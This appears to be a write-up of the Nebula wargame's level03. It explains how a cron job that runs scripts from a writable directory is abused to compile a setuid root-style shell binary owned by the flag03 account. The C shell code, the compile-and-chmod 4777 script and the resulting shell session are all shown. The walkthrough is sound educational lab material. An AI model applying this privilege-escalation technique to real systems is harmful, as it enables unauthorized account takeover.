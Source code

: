 # Level03

Check the home directory of **flag03** and take note of the files there.
There is a crontab that is called every couple of minutes.

To do this level, log in as the **level03** account with the password level03.
Files for this level can be found in /home/flag03.

## Source code

There is no source code available for this level.

## Solution

We have a crontab that will execute all files inside the writtable.d/ directory and then delete the files. The scripts inside the writtabl.d directory will be ran with the same permissions as the flag03 account, so we can compile a binary that will spawn a shell and then enable the setuid bit. Since the binary will be compiled as the flag03 account, when we run it with our level03 account we will be able to execute commands as if we were the flag03 account.
So here's the step
Back in our home directory /home/level03 we create the source code for our shell program in a file named shell.c:
logseq.order-list-type:: number

```c
int main(){
	system("/bin/sh");
	return 0;
}

```

Then inside the /home/flag03/writtable.d we create the file compile.sh with the following contents:
logseq.order-list-type:: number

```bash
#!/bin/bash

cp /home/level03/shell.c .
gcc shell.c -o shell
chmod 4777 shell

```

So we basically copy the source code for our shell program to the current dir which will the the homedir of flag03, compile it using gcc and then enable the setuid bit as well as execution bit for others so we are able to execute it once compiled
All that is left is to wait for the crontab to run and then we will have a shell setuid binary owned by the target account flag03. Once we execute it we will be presented with a shell as the flag03 account. Then all it's left is to execute the getflag command:
logseq.order-list-type:: number

```
level03@nebula:/home/flag03$ ./shell
sh-4.2$ whoami
flag03
sh-4.2$ getflag
You have successfully executed getflag on a target account

```
